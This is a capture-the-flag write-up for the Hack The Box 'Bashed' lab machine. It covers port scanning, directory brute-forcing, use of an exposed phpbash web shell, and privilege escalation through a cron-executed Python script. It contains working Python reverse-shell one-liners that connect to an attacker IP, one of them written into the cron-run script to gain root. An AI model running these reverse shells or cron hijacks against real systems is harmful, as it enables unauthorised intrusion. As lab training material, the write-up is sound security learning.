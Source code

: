 # [Bashed](https://www.hackthebox.com/machines/bashed)


```bash
rustscan -b 2000 10.10.10.68
```
![Alt text](img/image.png)


Directory brute-forcing

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.68/FUZZ
```

Then, I find 'uploads' directory and inside of this 'phpbash.php' file.

After searching , on 'dev' directory, there is also 'phpbash.php' file.
You can see live shell below.

![Alt text](img/image-1.png)


user.txt

![Alt text](img/image-2.png)


Here's we can see privileges for www-data on script-manager.

![Alt text](img/image-3.png)


Let's get reverse shell with python.

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Here's result of reverse shell.

![Alt text](img/image-4.png)

let's switch to scriptmanager user.

![Alt text](img/image-5.png)


Here we see scripts folder and one .py file and .txt file here.

![Alt text](img/image-6.png)

Then I looked that crontabs and see that this directory is running every 2 minutes.

```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > exploit.py
```

![Alt text](img/image-7.png)


root.txt

![Alt text](img/image-8.png)